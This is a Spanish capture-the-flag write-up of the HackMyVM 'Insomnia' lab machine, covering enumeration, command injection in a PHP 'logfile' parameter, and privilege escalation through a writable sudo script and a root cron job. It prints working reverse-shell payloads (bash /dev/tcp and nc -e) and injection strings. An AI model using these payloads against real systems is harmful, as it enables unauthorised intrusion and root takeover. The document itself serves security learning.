


# Writeup muy detallado de Insomnia – HackMyVM

## Aviso inicial

Este documento está redactado como material de estudio y como resolución paso a paso de una máquina tipo laboratorio/CTF ya desplegada en entorno controlado por el propio usuario. La idea aquí no es solo llegar a la flag, sino entender **por qué** cada paso tiene sentido, **qué** está ocurriendo realmente por debajo y **cómo** pensar cuando te encuentras con una situación parecida en otra máquina.

---

## Índice

1. Preparación del laboratorio y problema al importar en VMware
2. Configuración de red entre VirtualBox y VMware usando adaptador puente
3. Identificación de la IP de la víctima con Nmap
4. Escaneo completo de puertos y análisis del servicio encontrado
5. Inspección inicial de la aplicación web de chat
6. Análisis del código fuente del frontend
7. Interacción directa con la API `process.php` usando `curl`
8. Enumeración de contenido web con Gobuster
9. Descubrimiento de `administration.php`
10. Enumeración de parámetros con `ffuf`
11. Confirmación de LFI parcial y descubrimiento de RCE
12. Obtención de reverse shell como `www-data`
13. Enumeración local inicial y hallazgo de `start.sh`
14. Escalada lateral a `julia`
15. Análisis de `.bash_history`
16. Hallazgo de cron vulnerable y escalada a `root`
17. Obtención de flags
18. Conclusiones y conceptos clave aprendidos

---

## 1. Preparación del laboratorio y problema al importar en VMware

La máquina objetivo en este caso es **Insomnia** de HackMyVM. Al intentar importarla directamente en VMware aparece un error de compatibilidad del descriptor OVF/OVA.


El error muestra varias líneas como estas:

- `Unsupported element 'Caption'`
- `Unsupported element 'Description'`
- `Unsupported element 'InstanceID'`
- `Unsupported element 'ResourceType'`
- `Missing child element 'InstanceID'`
- `Missing child element 'ResourceType'`

### Qué significa ese error

Cuando importas una máquina virtual empaquetada, normalmente el hipervisor lee un archivo descriptor en formato **OVF**. Ese descriptor contiene metadatos sobre el hardware virtual de la máquina: memoria, CPU, discos, controladoras, red, etc.

El problema aquí no significa necesariamente que la máquina esté rota. Lo que significa es que **VMware Workstation no está interpretando correctamente ciertos elementos del descriptor** que sí acepta el paquete original. En otras palabras: el archivo existe, pero VMware no está cómodo con cómo están descritos algunos recursos virtuales.

### Por qué se decide usar VirtualBox

Como VirtualBox suele ser bastante tolerante con determinadas exportaciones de máquinas orientadas a laboratorios, la decisión práctica es esta:

- La máquina **Insomnia** se levanta en **VirtualBox**.
- La máquina atacante **Kali** sigue corriendo en **VMware**.
- Ambas deben quedar en la **misma red de capa 2** para que puedan verse entre sí.

Y aquí aparece el punto más importante de esta parte: como están en **dos hipervisores distintos**, no podemos depender de una red interna privada exclusiva de uno de ellos. La solución más simple es usar **adaptador puente** en ambos.

---

## 2. Configuración de red entre VirtualBox y VMware usando adaptador puente

### 2.1. Configuración en VirtualBox

En VirtualBox, una vez importada la máquina, vamos a:

`Configuración > Red > Adaptador 1 > Conectado a: Adaptador puente`

Y en el nombre del adaptador elegimos el que aparece en la captura.


### Por qué se elige ese adaptador concreto

El adaptador seleccionado es:

**MediaTek Wi‑Fi 6 MT7921 Wireless LAN Card**

Y se elige por una razón muy simple pero muy importante:

Ese es el **adaptador físico real** con el que el host Windows está conectado a la red local en ese momento.

Si tu equipo está saliendo a la red por esa tarjeta Wi‑Fi, y pones la máquina virtual en modo puente usando precisamente esa tarjeta, lo que ocurre es que la máquina virtual:

- pasa a comportarse como un equipo más dentro de la red local,
- recibe IP desde el mismo router o DHCP que usa tu equipo real,
- puede comunicarse directamente con otros dispositivos de la red,
- y, lo más importante aquí, puede comunicarse con tu Kali aunque esta esté en otro hipervisor, siempre que Kali también esté puenteada al mismo adaptador físico.

### Qué hace realmente el modo puente

El modo **Bridge / Puente** no “comparte internet” como hace NAT. Lo que hace es **poner a la VM directamente en la red física**.

Eso significa que la red verá a la VM casi como si fuera otro portátil o dispositivo conectado al Wi‑Fi de casa.

En resumen:

- **NAT**: la VM sale a internet “a través” del host.
- **Puente**: la VM participa directamente en la red real.

Aquí necesitamos puente porque Kali está en VMware e Insomnia en VirtualBox. Si cada una estuviera en su red privada de hipervisor, no se verían entre sí.

---

### 2.2. Configuración del puente en VMware

En VMware hacemos dos cosas.

Primero:

`Kali > Editar > Editor de red virtual > VMnet puenteado`

Y ahí seleccionamos exactamente la **misma tarjeta física** que usamos en VirtualBox.


### Por qué aquí también tiene que ser la misma tarjeta

Porque si VirtualBox está puenteando a la tarjeta Wi‑Fi real, pero VMware estuviera puenteando a otra interfaz diferente, por ejemplo una Ethernet desconectada o una interfaz virtual, tendrías dos mundos distintos.

Lo que buscas es que:

- la VM de VirtualBox,
- la VM de VMware,
- y el propio host

estén todos saliendo por la misma interfaz de red física y, por tanto, compartan el mismo segmento de red local.

---

### 2.3. Configuración del adaptador de Kali en VMware

Luego, dentro de la configuración de la máquina Kali en VMware:

`Click derecho sobre Kali > Configuración > Adaptador de red > Conexión en puente`



### Qué pasa al hacer este cambio

En ese momento Kali deja de usar la red privada o NAT que tuviera antes y pasa a solicitar conectividad a la red física real. Durante unos segundos puede parecer que se “cae” la red de la VM, porque en realidad está renegociando su conectividad.

Cuando ejecutamos:

```bash
ip a
```

y vemos una IP nueva, por ejemplo `192.168.1.42/24`, eso significa que Kali ya está dentro de la red local real.


### Qué significa `192.168.1.42/24`

- `192.168.1.42` es la IP concreta asignada a Kali.
- `/24` indica la máscara de red, equivalente a `255.255.255.0`.

Eso significa que Kali está en una red donde, normalmente, el rango útil visible será algo como:

- `192.168.1.1`
- hasta `192.168.1.254`

Por eso luego el reconocimiento de hosts se hace sobre `192.168.1.42/24` o, realmente, sobre toda la subred `192.168.1.0/24` implícita.

---

## 3. Creación de carpeta de trabajo

En Kali organizamos el laboratorio creando una carpeta para esta máquina:

```bash
cd ~/Desktop
cd HackMyVM
mkdir Insomnia
cd Insomnia
```

Esto no es un detalle menor. Tener una carpeta de trabajo limpia ayuda muchísimo a no perder:

- escaneos de Nmap,
- archivos descargados,
- notas,
- payloads,
- capturas,
- y resultados de herramientas.

---

## 4. Identificación de la IP de la víctima con Nmap

Lanzamos el descubrimiento de hosts:

```bash
sudo nmap -n -sn 192.168.1.42/24
```

### Explicación detallada de las flags

#### `sudo`

Nmap necesita privilegios elevados para cierto tipo de escaneos y para manipular paquetes de forma más directa. Aunque este escaneo sea de descubrimiento, usar `sudo` evita limitaciones.

#### `nmap`

Es la herramienta de referencia para descubrimiento de hosts, puertos y servicios.

#### `-n`

Le dice a Nmap que **no haga resolución DNS**.

¿Por qué interesa?

Porque si Nmap intenta resolver nombres:

- el escaneo tarda más,
- mete ruido innecesario,
- y para una red local doméstica muchas veces no aporta nada útil.

Aquí queremos velocidad y claridad.

#### `-sn`

Significa **host discovery only**.

Es decir:

- no hace escaneo de puertos,
- solo intenta averiguar qué hosts están vivos.

Antes esto se llamaba “ping scan”.

### Resultado relevante

En la salida aparece esta línea:

```text
Nmap scan report for 192.168.1.43
Host is up (0.00013s latency).
MAC Address: 08:00:27:43:D3:CC (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
```

### Por qué esa es la máquina víctima

La clave está en el prefijo MAC:

**08:00:27**

Ese prefijo corresponde al **OUI** de las interfaces virtuales de VirtualBox.

### Qué es un OUI

**OUI** significa **Organizationally Unique Identifier**.

Son los primeros 3 bytes de una dirección MAC y sirven para identificar al fabricante del adaptador de red.

Ejemplos:

- `08:00:27` → Oracle VirtualBox
- `00:0C:29` → VMware
- `48:E7:DA` → AzureWave
- `A4:43:8C` → Arris

Como tú sabes que la máquina víctima la has levantado en VirtualBox, y ves en la red una MAC de VirtualBox, esa es la pista decisiva.

### Conclusión

La IP de la víctima es:

**192.168.1.43**

---

## 5. Escaneo completo de puertos y servicios

Ahora que ya sabemos cuál es la IP, hacemos un escaneo más agresivo:

```bash
sudo nmap -p- --open -sCV -Pn -T5 -vvv -oN fullscan 192.168.1.43
```

### Explicación detallada de cada flag

#### `-p-`

Escanea **todos los puertos TCP** del 1 al 65535.

Si no se usa, Nmap suele escanear solo un conjunto reducido de puertos comunes. En CTF no queremos perdernos un servicio raro en un puerto poco habitual.

#### `--open`

Hace que en la salida final solo aparezcan puertos abiertos.

Esto ayuda a limpiar muchísimo el resultado.

#### `-sC`

Lanza los **scripts por defecto** de Nmap NSE.

Sirve para hacer enumeración automática básica sobre los servicios encontrados.

#### `-sV`

Intenta detectar la **versión** del servicio.

No solo te dirá “http”, sino algo como “PHP cli server 7.3.19-1”.

#### `-Pn`

Le dice a Nmap que **no haga host discovery previo** y asuma que el host está vivo.

Útil cuando:

- el objetivo filtra pings,
- el descubrimiento falla,
- o tú ya sabes que la máquina existe.

#### `-T5`

Plantilla temporal muy agresiva.

Hace que el escaneo vaya más rápido, pero con el coste de que puede provocar:

- pérdida de precisión,
- timeouts,
- respuestas omitidas,
- o comportamientos raros en servicios sensibles.

#### `-vvv`

Aumenta bastante el nivel de verbosidad.

Sirve para ver más detalle mientras el escaneo corre.

#### `-oN fullscan`

Guarda el resultado en formato “normal” en un archivo llamado `fullscan`.

Esto es importantísimo porque luego puedes volver al escaneo sin repetirlo.

---

## 6. Resultado del escaneo

El escaneo devuelve:

```text
8080/tcp open  http    syn-ack ttl 64 PHP cli server 5.5 or later (PHP 7.3.19-1)
|_http-title: Chat
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
```

### Lectura detallada del resultado

#### Puerto 8080 abierto

El servicio web no está en el puerto 80, sino en el **8080**, algo bastante típico en aplicaciones montadas deprisa o en entornos de desarrollo.

#### `PHP cli server`

Esto es muy importante.

No estamos ante Apache ni Nginx haciendo de servidor principal de la aplicación. Lo que parece estar corriendo es el **servidor embebido de PHP**, normalmente lanzado con algo como:

```bash
php -S 0.0.0.0:8080
```

Eso sugiere varias cosas:

- entorno sencillo,
- configuración poco robusta,
- aplicación probablemente pequeña,
- y posibilidad de errores típicos de desarrollo.

#### `PHP 7.3.19-1`

Nos da la versión de PHP. Aunque no estamos ante una explotación directa de versión, saberlo ayuda a contextualizar el entorno.

#### `http-title: Chat`

La aplicación se presenta como un chat.

Eso inmediatamente nos hace pensar en:

- almacenamiento de mensajes,
- entradas de usuario,
- posible XSS,
- endpoints AJAX,
- ficheros de log,
- y backend débilmente validado.

#### Métodos permitidos

`GET HEAD POST OPTIONS`

Que `POST` esté permitido es importante porque suele indicar formularios o endpoints que reciben datos.

---

## 7. Exploración inicial de la web

Visitamos:

```text
http://192.168.1.43:8080
```

Y vemos una interfaz de chat.


Al escribir un mensaje como `hola` y pulsar Enter, el mensaje aparece arriba con el prefijo del nickname, por ejemplo `guest hola`.

Eso nos confirma que:

- la app guarda estado,
- existe un backend real,
- y hay una comunicación cliente-servidor que podremos reproducir fuera del navegador.

---

## 8. Análisis del código fuente del frontend

Al hacer `CTRL + U` vemos el HTML y JavaScript de la página.

Aquí hay varias ideas clave.

### 8.1. El frontend pide nickname con `prompt`

```javascript
var name = prompt("Enter your nickname:", "guest");
```

Eso significa que el nickname no viene de un login real, sino de una simple entrada en el navegador.

Ya eso nos dice que la autenticación del chat, si existe, es mínima o nula.

### 8.2. Sanitización del nombre en frontend

```javascript
name = name.replace(/(<([^>]+)>)/ig,"");
```

Aquí intentan quitar etiquetas HTML del nickname.

#### Por qué esto no debe darte confianza

Porque esa validación ocurre en el **frontend**, es decir, en el navegador del usuario.

Si el backend no vuelve a validar, tú puedes saltarte totalmente esa protección enviando peticiones directamente al servidor con `curl`, Burp o cualquier otra herramienta.

Regla importante:

**Validar solo en frontend no es seguridad.**

### 8.3. Inserción usando `.html()`

```javascript
$("#name-area").html("You are: <span>" + name + "</span>");
```

Esto es potencialmente peligroso porque `.html()` inserta HTML real. Si la sanitización fuese incompleta, aquí podría haber XSS.

### 8.4. Objeto `Chat()` y comunicación con backend

```javascript
var chat = new Chat();
chat.getState();
```

Esto ya nos indica que existe una lógica cliente-servidor en otro archivo, `chat.js`, y probablemente un backend que soporta funciones como:

- `getState`
- `update`
- `send`

### 8.5. Restricción de longitud del input

El textarea tiene `maxlength='300'` y además hay JavaScript que limita la entrada.

#### Por qué esto es importante entenderlo bien

Eso **solo limita lo que puedes escribir cómodamente desde la caja del navegador**.

No significa que el backend limite realmente a 300 caracteres.

Si yo hago una petición manual con `curl`, puedo intentar mandar 1000 caracteres. La única manera de que el límite sea real es que el backend lo valide también.

### 8.6. Envío real del mensaje

```javascript
chat.send(text, name);
```

Esto es la pista principal. La página bonita da igual. El punto importante es: **el frontend llama a un backend concreto para enviar datos**.

Si descubrimos cómo le habla, podremos hablarle nosotros directamente.

### 8.7. Polling automático

```html
<body onload="setInterval('chat.update()', 1000)">
```

Cada segundo el navegador pregunta si hay mensajes nuevos.

Eso sugiere claramente que existe una función backend de actualización incremental.

---

## 9. Hablando directamente con `process.php` usando `curl`

La idea aquí es básica pero central en pentesting web:

**No necesito usar la interfaz web. Necesito hablar con el backend.**

### 9.1. Consultar el estado del chat

```bash
curl -s 'http://192.168.1.43:8080/process.php' -H 'Content-Type: application/x-www-form-urlencoded' --data-urlencode 'function=getState'
```

### Explicación de flags

#### `curl`

Hace peticiones HTTP desde terminal.

#### `-s`

Modo silencioso. Evita barras de progreso y ruido.

#### `-H 'Content-Type: application/x-www-form-urlencoded'`

Le estamos diciendo al servidor el tipo de datos que enviamos, el formato típico de formularios web.

#### `--data-urlencode`

Envía parámetros codificados de forma segura.

Es muy útil cuando el valor puede tener espacios, símbolos o caracteres especiales.

### Respuesta

```json
{"state":2}
```

Eso significa que el servidor lleva un contador o estado actual de 2 mensajes.

---

### 9.2. Pedir todos los mensajes desde el estado 0

```bash
curl -s 'http://192.168.1.43:8080/process.php' -H 'Content-Type: application/x-www-form-urlencoded' --data-urlencode 'function=update' --data-urlencode 'state=0' | jq
```

### Qué estamos diciendo al servidor

- `function=update` → quiero actualización
- `state=0` → no tengo ningún mensaje, devuélveme todo

### Respuesta

```json
{
  "state": 2,
  "text": [
    "<span>Santiago</span>Hola Inso ",
    "<span>Santiago</span>q tal estas "
  ]
}
```

### Qué revela esto

Primero, que el backend devuelve directamente HTML mezclado con datos:

```html
<span>Santiago</span>Hola Inso
```

Eso es mal diseño porque mezcla presentación y datos. Desde el punto de vista ofensivo, eso abre la puerta a problemas como XSS o inyección de contenido HTML.

---

### 9.3. Enviar un mensaje con `curl`

```bash
curl -s 'http://192.168.1.43:8080/process.php' -H 'Content-Type: application/x-www-form-urlencoded' --data-urlencode 'function=send' --data-urlencode 'nickname=curl' --data-urlencode 'message=Message sent from curl' | jq
```

### Qué significa esto

Le estamos diciendo al backend:

- ejecuta la función `send`,
- guarda como nickname `curl`,
- y como mensaje `Message sent from curl`.

La respuesta es `[]`, que no dice gran cosa, pero eso no significa que no haya funcionado.

Lo comprobamos de nuevo con `getState` y `update`, y el estado sube a 3. Eso confirma que **podemos interactuar con la aplicación sin tocar la interfaz gráfica**.

---

## 10. Enumeración de contenido web con Gobuster

Ahora toca descubrir si hay archivos y rutas que la interfaz principal no enlaza.

Ejecutamos:

```bash
gobuster dir -u http://192.168.1.43:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-big.txt -x php,txt,html --exclude-length 2899
```

### Explicación detallada de flags

#### `dir`

Modo de enumeración de directorios y archivos.

#### `-u`

URL base objetivo.

#### `-w`

Wordlist que se va a usar para probar nombres de rutas.

#### `-x php,txt,html`

Añade extensiones a cada palabra del diccionario.

Por ejemplo, si la palabra es `admin`, probará:

- `/admin`
- `/admin.php`
- `/admin.txt`
- `/admin.html`

Esto es importantísimo porque muchas veces el archivo real no es una carpeta sino un recurso `.php` o `.txt`.

#### `--exclude-length 2899`

Esto es muy importante entenderlo.

A veces el servidor responde `200 OK` para casi todo, incluso para rutas que realmente no existen, devolviendo siempre la misma página genérica.

En ese caso el **código de estado ya no sirve** como indicador. Lo que sí sirve es el **tamaño de la respuesta**.

Aquí hemos detectado que la respuesta “falsa positiva” típica mide **2899 bytes**. Entonces le decimos a Gobuster:

> Ignora todo lo que devuelva longitud 2899.

Eso limpia muchísimo el resultado.

### Hallazgos

```text
/chat.txt             (Status: 200) [Size: 24]
/administration.php   (Status: 200) [Size: 65]
/process.php          (Status: 200) [Size: 2]
```

---

## 11. Exploración de los nuevos recursos

### 11.1. `chat.txt`

Al visitarlo vemos algo como:

```html
<span>guest</span>hola
```

Esto sugiere que el chat está persistiendo mensajes en un archivo plano. Eso encaja con el comportamiento sencillo de la aplicación.

### 11.2. `administration.php`

Al abrirlo directamente devuelve:

```text
You are not allowed to view :
Your activity has been logged
```

Esto es interesante por dos motivos:

1. Existe un panel o recurso administrativo.
2. El mensaje parece construido dinámicamente y sugiere que espera algún parámetro.

### 11.3. `process.php`

Visitarlo sin parámetros devuelve `[]`. Eso tiene sentido: seguramente espera POSTs con `function=...`.

---

## 12. Enumeración de parámetros en `administration.php` con `ffuf`

Como sospechamos que `administration.php` procesa parámetros GET, hacemos fuzzing de nombres de parámetro.

```bash
ffuf -u 'http://192.168.1.43:8080/administration.php?FUZZ=test' -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -fs 65
```

### Explicación detallada

#### `FUZZ`

Lugar donde ffuf irá sustituyendo cada palabra del diccionario. Aquí no buscamos rutas, sino **nombres de parámetro**.

#### `-fs 65`

`filter size`.

Filtra respuestas de tamaño 65 bytes. Ya sabemos que la respuesta estándar de “no permitido” mide eso. Si una respuesta cambia de tamaño, probablemente ese parámetro sí existe y está siendo procesado de otra manera.

### Hallazgo

```text
logfile [Status: 200, Size: 69, Words: 12, Lines: 3]
```

### Qué significa esto

El parámetro `logfile` existe y el backend lo usa.

El nombre ya huele muchísimo a:

- lectura de archivos,
- logs,
- path controlado por el usuario,
- LFI,
- o incluso inyección de comandos si hacen algo inseguro con el valor.

---

## 13. Primer intento: LFI parcial

Probamos:

```text
http://192.168.1.43:8080/administration.php?logfile=/etc/passwd
```

Y la respuesta dice:

```text
You are not allowed to view : /etc/passwd
Your activity has been logged
```

### Qué revela esto realmente

Esto es muy importante entenderlo bien.

Aunque el mensaje parece de bloqueo, en realidad nos está confirmando algo valioso:

- el backend **sí está usando nuestro parámetro**,
- el valor llega al servidor,
- y existe algún filtro o control superficial.

Es decir, no estamos ante un parámetro ignorado. Estamos ante un parámetro **procesado**.

Eso ya es media vulnerabilidad descubierta.

---

## 14. Uso de Burp Suite para ver la petición real del chat

Interceptamos una petición de envío del chat y vemos algo como:

```http
POST /process.php HTTP/1.1
Host: 192.168.1.43:8080
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
...

function=send&message=voy+con+burp%0A&nickname=Santiago
```

### Qué aprendemos de aquí

- El chat usa `POST` contra `/process.php`
- Envía tres cosas importantes:
  - `function`
  - `message`
  - `nickname`

Esto confirma lo que ya habíamos reproducido con `curl`: el frontend no es más que un cliente bonito para una API muy simple.

---

## 15. Descubrimiento del RCE en `administration.php`

Probamos una carga con punto y coma:

```bash
curl 'http://192.168.1.43:8080/administration.php?logfile=test;whoami'
```

La respuesta visible es:

```text
You are not allowed to view : test;whoami
Your activity has been logged
```

Pero luego el resultado del `whoami` aparece reflejado en el chat/web como:

```text
www-data
```

### Por qué esto es un RCE

Aquí lo importante no es el mensaje superficial que devuelve la página, sino que **hemos conseguido que el servidor ejecute `whoami`**.

### Qué está pasando probablemente en backend

Algo inseguro del estilo:

```php
system("cat " . $_GET['logfile']);
```

o parecido.

Si tú metes:

```text
test;whoami
```

el shell interpreta:

```bash
cat test; whoami
```

Y el `;` separa comandos.

Eso significa que no estamos solo ante una lectura de archivos, sino ante **inyección de comandos del sistema**.

### Definición práctica de RCE

**RCE (Remote Command Execution)** es la capacidad de ejecutar comandos arbitrarios en el servidor desde fuera.

Aquí se cumple por completo:

- inyectas un comando,
- el servidor lo ejecuta,
- y ves su salida.

---

## 16. Obtención de reverse shell como `www-data`

Como ya tenemos RCE, el siguiente objetivo es conseguir una shell interactiva.

Primero dejamos un listener en Kali:

```bash
penelope -p 5555
```

Luego usamos un payload de reverse shell en bash. La petición final queda así:

```bash
curl -G 'http://192.168.1.43:8080/administration.php' --data-urlencode 'logfile=test;bash -c "bash -i >& /dev/tcp/192.168.1.42/5555 0>&1"'
```

### Explicación muy detallada de esta petición

#### `-G`

Esta flag es clave.

Por defecto, cuando usas `--data` o `--data-urlencode`, `curl` hace una petición `POST`.

Pero aquí la vulnerabilidad está en un parámetro GET, es decir, en la URL:

```text
administration.php?logfile=...
```

Con `-G` le dices a curl:

> Coge los datos y ponlos como query string en la URL.

Sin `-G`, podrías estar enviando el parámetro al cuerpo del POST y no llegar al código vulnerable.

#### `--data-urlencode`

Muy importante también.

Nuestro payload contiene caracteres muy delicados para una URL:

- `;`
- espacios
- `>`
- `&`
- comillas

Si los pones crudos, rompes la URL o el servidor la interpreta mal. `--data-urlencode` los codifica correctamente para que viajen de forma segura.

### Explicación del payload

```text
test;bash -c "bash -i >& /dev/tcp/192.168.1.42/5555 0>&1"
```

#### `test;`

Sirve para cerrar o completar el comando original inseguro y luego lanzar el nuestro. El verdadero protagonista aquí es el `;`, que separa comandos en shell.

#### `bash -c "..."`

Fuerza a que lo que viene después lo ejecute **bash** real.

Esto es importante porque `/dev/tcp/host/port` no siempre funciona en shells mínimas como `sh` o `dash`. Bash sí lo soporta.

#### `bash -i`

Pide una shell interactiva.

#### `>& /dev/tcp/192.168.1.42/5555 0>&1`

Redirige entrada y salida al socket TCP hacia tu Kali. En otras palabras, la shell de la víctima se conecta a tu listener.

### Resultado

Penelope muestra una nueva reverse shell y pasamos a interactuar como:

```bash
www-data@insomnia:~/html$
```

---

## 17. Enumeración local inicial como `www-data`

Lo primero que hacemos es listar el directorio actual:

```bash
ls -la
```

Y vemos:

```text
total 40
drwxr-xr-x 3 www-data www-data 4096 Mar 25 11:53 .
drwxr-xr-x 3 root     root     4096 Dec 17  2020 ..
-rw-r--r-- 1 www-data www-data  426 Dec 21  2020 administration.php
-rw-r--r-- 1 www-data www-data 1610 Dec 20  2020 chat.js
-rw-r--r-- 1 www-data www-data  243 Mar 25 13:26 chat.txt
drwxr-xr-x 2 www-data www-data 4096 Dec 20  2020 images
-rw-r--r-- 1 www-data www-data 2899 Dec 21  2020 index.php
-rw-r--r-- 1 www-data www-data 1684 Dec 20  2020 process.php
-rwxrwxrwx 1 root     root       20 Dec 21  2020 start.sh
-rw-r--r-- 1 www-data www-data 1363 Dec 20  2020 style.css
```

### Por qué `start.sh` es especialmente importante

Porque tiene estos permisos:

```text
-rwxrwxrwx 1 root root ... start.sh
```

Eso significa **777**:

- root puede leer, escribir y ejecutar
- el grupo puede leer, escribir y ejecutar
- cualquier otro usuario también puede leer, escribir y ejecutar

Y además el archivo pertenece a **root**.

### Por qué eso huele a escalada

Porque si un archivo:

- pertenece a root,
- pero cualquiera puede modificarlo,
- y además ese archivo se usa de algún modo privilegiado,

entonces puedes convertirlo en un vector de escalada.

### Contenido de `start.sh`

```bash
cat start.sh
php -S 0.0.0.0:8080
```

Esto nos confirma algo muy valioso: este script es el que lanza el servidor PHP embebido.

---

## 18. Enumeración de usuarios del sistema

Para no tragarnos todo `/etc/passwd`, filtramos usuarios con shell válida:

```bash
cat /etc/passwd | grep 'sh$'
```

### Explicación de este filtro

- `grep 'sh$'` busca líneas que terminan en `sh`
- `$` significa “fin de línea”

Eso nos devuelve normalmente usuarios con shell como `/bin/sh` o `/bin/bash`.

Salida relevante:

```text
root:x:0:0:root:/root:/bin/bash
julia:x:1000:1000:julia:/home/julia:/bin/bash
```

### Qué deducimos

Hay un usuario humano interesante además de root:

**julia**

---

## 19. Revisión de privilegios sudo

Ejecutamos:

```bash
sudo -l
```

Y vemos:

```text
User www-data may run the following commands on insomnia:
    (julia) NOPASSWD: /bin/bash /var/www/html/start.sh
```

### Qué significa exactamente esta línea

El usuario `www-data` puede ejecutar:

```bash
/bin/bash /var/www/html/start.sh
```

como el usuario `julia`, y **sin contraseña**.

### Qué no significa

No significa acceso directo a root.

### Qué sí significa

Que podemos hacer una **escalada lateral**:

- de `www-data`
- a `julia`

Y eso puede ser suficiente para llegar después a root.

---

## 20. Cambio a `julia` modificando `start.sh`

Si ejecutásemos directamente:

```bash
sudo -u julia /bin/bash /var/www/html/start.sh
```

el script intentaría arrancar PHP en el puerto 8080 y fallaría porque ya está en uso. No nos daría una shell interactiva útil.

### Solución

Como el script es escribible por todos, añadimos una línea:

```bash
echo '/bin/bash' >> start.sh
```

### Qué hace exactamente `>>`

`>>` añade contenido al final del archivo, sin borrar lo que ya tenía.

Así, `start.sh` pasa de esto:

```bash
php -S 0.0.0.0:8080
```

a esto:

```bash
php -S 0.0.0.0:8080
/bin/bash
```

### Ahora lo ejecutamos como `julia`

```bash
sudo -u julia /bin/bash /var/www/html/start.sh
```

Primero intenta levantar PHP y falla por puerto ocupado. Luego ejecuta `/bin/bash` y nos entrega shell como `julia`.

Resultado:

```bash
julia@insomnia:/var/www/html$
```

---

## 21. Obtención de la user flag

Una vez como `julia`:

```bash
cd
ls
cat user.txt
```

Y obtenemos:

```text
~~~~~~~~~~~~~USER INSOMNIA
~~~~~~~~~~~~~
Flag : [c2e285cb33cecdbeb83d2189e983a8c0]
```

---

## 22. Revisión de `.bash_history`

Ahora toca una de las fases más importantes en post-explotación: leer el historial del usuario.

```bash
cat ~/.bash_history
```

Salida destacada:

```text
echo "/bin/bash" >> .plantbook
sudo -u root /bin/bash /home/rose/.plantbook
...
nano check.sh
echo "nc -e /bin/bash 10.0.2.13 4444" >> check.sh
```

### Por qué `.bash_history` es tan valioso

Porque no estás viendo solo comandos. Estás viendo:

- errores del usuario,
- hábitos,
- rutas importantes,
- y muchas veces directamente el camino a la escalada.

### Pistas que nos da

La parte de `.plantbook` sugiere que existe o existió otra ruta de escalada mediante un script ejecutado como root.

Pero la parte más interesante para este caso es:

```text
nano check.sh
echo "nc -e /bin/bash 10.0.2.13 4444" >> check.sh
```

Esto sugiere que alguien manipuló un `check.sh` con una reverse shell y que ese script probablemente se ejecuta automáticamente.

Eso huele a **cron**.

---

## 23. Revisión de cron

Comprobamos el crontab global:

```bash
cat /etc/crontab
```

Y encontramos esta línea decisiva:

```text
*  *    * * *   root    /bin/bash /var/cron/check.sh
```

### Cómo se lee esa línea

- `* * * * *` → cada minuto
- `root` → lo ejecuta root
- `/bin/bash /var/cron/check.sh` → comando ejecutado

### Traducción directa

Cada minuto, **root ejecuta el script `/var/cron/check.sh`**.

Luego vemos permisos:

```bash
ls -la /var/cron/check.sh
```

Salida:

```text
-rwxrwxrwx 1 root root 153 Dec 21  2020 /var/cron/check.sh
```

### Esto es una vulnerabilidad de libro

Porque se cumplen las dos condiciones perfectas:

1. **root ejecuta el script automáticamente**
2. **cualquier usuario puede modificar el script**

Eso significa que el sistema va a ejecutar nuestro contenido como root sin pedir nada más.

---

## 24. Escalada a root mediante cron escribible

### Paso 1. Dejar listener en Kali

```bash
penelope -p 8888
```

### Paso 2. Sobrescribir el script con una reverse shell

```bash
echo "bash -c 'bash -i >& /dev/tcp/192.168.1.42/8888 0>&1'" > /var/cron/check.sh
```

### Explicación precisa de este comando

#### `>`

A diferencia de `>>`, aquí usamos `>` para **sobrescribir** completamente el archivo.

No queremos dejar restos del script anterior. Queremos que root ejecute solo nuestro payload.

#### El payload

```bash
bash -c 'bash -i >& /dev/tcp/192.168.1.42/8888 0>&1'
```

Es el mismo concepto de antes, pero ahora no lo dispara una petición web, sino cron como root.

### Paso 3. Esperar

Como el job está programado cada minuto, en menos de 60 segundos root ejecutará el script.

### Resultado

Recibimos shell como:

```bash
root@insomnia:~#
```

---

## 25. Obtención de la root flag

Una vez dentro:

```bash
whoami
cd
ls -la
cat root.txt
```

Y obtenemos:

```text
~~~~~~~~~~~~~~~ROOTED INSOMNIA
~~~~~~~~~~~~~~~
Flag : [c84baebe0faa2fcdc2f1a4a9f6e2fbfc]

by Alienum with <3
```



---

## 26. Resumen técnico de la cadena de explotación

### Enumeración inicial

- Descubrimiento de IP por MAC de VirtualBox
- Escaneo completo de puertos con Nmap
- Detección de servicio web PHP en 8080

### Fase web

- Análisis del frontend del chat
- Comprensión de la API `process.php`
- Enumeración de rutas con Gobuster
- Hallazgo de `administration.php`
- Fuzzing de parámetros con `ffuf`
- Descubrimiento del parámetro `logfile`
- Confirmación de inyección de comandos y RCE

### Post-explotación

- Reverse shell como `www-data`
- Enumeración local
